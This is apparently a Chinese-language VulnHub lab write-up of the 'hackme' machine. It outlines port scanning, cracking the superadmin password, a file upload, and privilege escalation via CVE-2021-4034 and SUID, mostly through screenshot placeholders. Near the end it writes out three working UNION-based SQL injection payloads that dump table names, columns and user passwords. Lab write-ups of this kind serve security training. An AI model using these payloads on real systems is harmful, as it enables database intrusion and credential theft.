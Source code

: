 +++
ShowToc = true
TocOpen = true
title = '0x045 hackme'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEd1cbf554d8355862b3021bb89beeff36image.png)

![](/vulnhub_img/WEBRESOURCEfbe85a19601dd4ab45658e125c479a22image.png)

# 渗透

![](/vulnhub_img/WEBRESOURCE2ca59bd6ad66b614526f86153da62412image.png)

注册一个账号：

登录：

![](/vulnhub_img/WEBRESOURCEf01c1126efd226c4623af26d1209548eimage.png)

这里说来惭愧，又是因为懒病，放弃了手动注入，：

![](/vulnhub_img/WEBRESOURCE131691fd40e674bf20ece71bbd03e30aimage.png)

破解superadmin的密码：

![](/vulnhub_img/WEBRESOURCE951d4c0e6f55607b087e322c763d127aimage.png)

![](/vulnhub_img/WEBRESOURCE07a00374def5f424c41f7d538c337b09image.png)

登录superadmin，发现上传框：

![](/vulnhub_img/WEBRESOURCE793b853904c8b04c69af14eeab91e1e9image.png)

![](/vulnhub_img/WEBRESOURCE02474309031324a3ef3009fd3751ae87image.png)

![](/vulnhub_img/WEBRESOURCEd021cc4c7bd9b7caef5258b5637652a2image.png)

# 提权

2021-4034

![](/vulnhub_img/WEBRESOURCEd376626b8072310083501b60ebbcddf3image.png)

SUID

![](/vulnhub_img/WEBRESOURCEa8c319e467a607c10f3e5cbe807c550bimage.png)

补一下手动注入：

Security ' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="webapphacking"#

表名：webapphacking

books,users

![](/vulnhub_img/WEBRESOURCE4b8aadd8c45cb8915003cc95318e9b9eimage.png)

列名：

Security ' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#

USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,user,pasword,name,address

![](/vulnhub_img/WEBRESOURCEa276bc3a5cc899df9c190b484f6fdedcimage.png)

Security ' union select 1,2,group_concat(USER,'\n',pasword) from users#

![](/vulnhub_img/WEBRESOURCE4effe1089c2998f430edd3c5d62346f6image.png)
